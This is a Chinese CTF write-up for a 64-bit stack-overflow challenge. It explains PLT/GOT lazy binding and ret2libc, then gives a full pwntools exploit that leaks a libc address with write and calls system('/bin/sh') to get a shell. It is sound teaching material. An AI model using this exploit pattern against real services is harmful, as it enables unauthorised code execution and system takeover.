



### 复读鸭

#### 题目描述

人类的本质是复读鸭，但似乎程序并不一定是

#### 解题思路

checksec依旧没开啥保护

die看一下是64位程序，放入ida看主函数：

依旧是栈溢出，但是当我们再寻找的时候，发现居然没有后门函数。这时候，我们就需要考虑ret2libc了，因为libc这个动态链接库中是一定存在system函数的，而ida那些红色的函数，基本上都是调用了libc中的函数的。

> 这些函数采用了**延迟绑定**的方法：函数被实际调用时候，动态链接器才进行符号查找、重定位等操作。调用方式是第一次先跳转到got表位置。由于这个机制，**GOT** 被拆分为 `.got` 节和 `.got.plt` 节两个部分，不需要延迟绑定的前者用于保存全局变量的引用，加载到内存后被标记为只读；需要延迟绑定的后者则用于保存函数引用，具有读写权限。。。（跳过一堆复杂的概念）
>
> 举个例子：调用 `foo()` 库函数，第一次调用时，执行 `call` 指令进入对应的 PLT 表 `foo@plt` ，第一条 JMP 指令跳到对应的 GOT 条目，此时该位置保存的还是 PLT 条目下第二条指令的地址，于是回到 PLT 条目中，将 `index`（ `foo()` 在 `.rel.plt` 中的下标）压栈，随后进入 `PLT[0]` 。`PLT[0]` 先将 `GOT[1]` 压栈，然后调用 `GOT[2]` ，也就是动态链接器的 `_dl_runtime_resolve()` 函数，完成符号解析和重定位工作，并将 `foo()` 的实际地址填入 `foo@got.plt` 中，也就是 `GOT[4]` ，最后才把控制权交给 `foo()` 。绑定完成后，如果再调用 `foo()` ，就可以由 `foo@plt` 的第一条指令直接跳转到 `foo@got.plt` ，将控制权交给 `foo()` 。

简要来说，就是在第一次调用之后，寻找foo的got表中的位置可以直接调用foo，其中存放的地址即为动态链接库函数的地址，未被调用则不行。

**那么这对于我们解题有什么帮助呢？**

根据延迟绑定机制，我们通过如下步骤获取到 `system()` 的真实地址：

1. 泄漏已经执行过的库函数的真实地址
2. 根据 `libc` 版本（每个库函数均有固定的偏移）计算出 libc 基地址
3. 由 `system()` 函数在该 `libc` 库中的偏移计算出 `system()` 的真实地址

简单推导一下，libc 基地址 + 被泄漏函数偏移 = 被泄漏函数实际地址。
即 **libc 基地址 = 被泄漏函数真实地址 - 被泄漏函数偏移**，
而 **system 真实地址 = libc 基地址 + system 偏移**。
由此，采用常规的栈溢出二次攻击即可将程序执行流导向 `system()` ，从而 `get shell`。

那么我们就按照以上思路进行攻击：

1. 首先如何泄露库函数的真实地址？我们需要将地址打印出来，这里为了便于我们操作，我就不使用printf这种参数不确定的函数了，我采用write，因为这个函数正好是返回前最后调用的。那么我需要构造write(0x1, leak_addr, count)，从而输出到标准终端。我们知道，在64位系统上前三个参数分别由rdi，rsi，rdx寄存器控制（不知道的看一下前面的call write函数前储存参数的寄存器，不过C/C++的传参一般是从右到左的），那么我们将这三个寄存器的值分别赋为对应值就行了。

   接下来说以上内容的操作，我们仍然需要使用ROP的方式，分别POP这三个寄存器然后ret，我们直接使用`rop.find_gadget(['pop rdi', 'ret'])`的方式来查找，但是并没有发现`pop rsi; ret`的；我们使用ROPgadget查找所有可用的gadgets，发现了`pop rsi; pop r15; ret`的部分：，使用它；

   没有发现pop rdx，不过想一想其实没关系，可以忽略它，因为上一个函数参数write是8，输出地址的时候，8位足够。

   于是我们找到了第一步的所有一切要素，可以泄露出libc库函数地址了。

2. 接着有了该地址，我们和手中的libc库的偏移地址相减，得到libc库的基地址，然后再加上libc库中的system函数偏移地址，就能得到我们最终想要去的地址了，这个时候我们题目就恢复到了上锁的后门那题的难度了，之后变不在赘述。

3. 我接下来展示的脚本是和上面流程完全一致的，但是payload可以删去一些内容，从而更加简化，留给大家思考。

```python
#!/usr/bin/env python3
from pwn import *

binary = './chall'
elf1 = ELF(binary)
libc = ELF('./libc.so.6')

def start(REMOTE:bool):
    if REMOTE:
        return remote('118.89.197.242',32789)
    else:
        return process(binary)

p = start(False)
context.arch = 'amd64'
rop = ROP(elf1)
pop_rdi_ret_addr = rop.find_gadget(['pop rdi', 'ret']).address
pop_rsi_ret_addr = rop.find_gadget(['pop rsi', 'pop r15', 'ret']).address # 没找到单独pop rsi ret的

read_plt = elf1.got['read']
write_sym = elf1.symbols['write']
Repeater_sym = elf1.symbols['Repeater']

libc_read = libc.symbols['read'] # 可以替换成任意程序中使用的libc中的内容，比如printf，write
libc_system = libc.symbols['system']
libc_sh = list(libc.search(b'/bin/sh'))[0]

padding = 0x10 + 0x8

payload1 = flat([b'a'*padding, pop_rdi_ret_addr, 0x1, pop_rsi_ret_addr, read_plt, 0xdeadbeaf, write_sym])
payload1 += flat([Repeater_sym])

p.sendlineafter(b'Enter your command: ', payload1)
p.recvuntil(b'byebye!!')
read_addr = u64(p.recv(8))
system_addr = read_addr - libc_read + libc_system
sh_addr = read_addr - libc_read + libc_sh

payload2 = flat(b'a'*padding, pop_rdi_ret_addr, sh_addr, system_addr)
p.sendlineafter(b'Enter your command: ', payload2)

p.interactive()
```

#### 出题思路

更有难度，需要了解ret2libc的基本操作。涉及到一个漏洞的重复利用。

本来第二周还想出一道ret2syscall的题目，但是看到第一周都没啥人做出来基础的版本，就放弃了。